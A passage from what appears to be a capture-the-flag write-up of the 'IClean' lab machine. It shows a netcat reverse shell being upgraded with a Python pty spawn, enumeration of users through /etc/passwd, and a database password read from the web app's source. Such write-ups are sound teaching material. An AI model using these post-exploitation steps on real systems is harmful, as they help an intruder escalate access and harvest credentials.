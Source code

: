 The Python alternative works fine:

```

www-data@iclean:/opt/app$ python3 -c 'import pty;pty.spawn("bash")'
www-data@iclean:/opt/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset
www-data@iclean:/opt/app$

```

## Shell as consuela

### Enumeration

#### Users

There is one user on the box with a home directory in `/home`, and www-data can’t access their directory:

```

www-data@iclean:/home$ ls
consuela
www-data@iclean:/home$ ls consuela/
ls: cannot open directory 'consuela/': Permission denied

```

That same user and root have shells in `passwd`:

```

www-data@iclean:/home$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash

```

#### Web Application Source

The web application is running from `/opt/app`:

```

www-data@iclean:/opt/app$ ls
app.py  static  templates

```

At the top of `app.py`, there’s a database configuration:

```

app = Flask(__name__)
                                                               
app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key                                    
# Database Configuration
db_config = {                                                  
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
```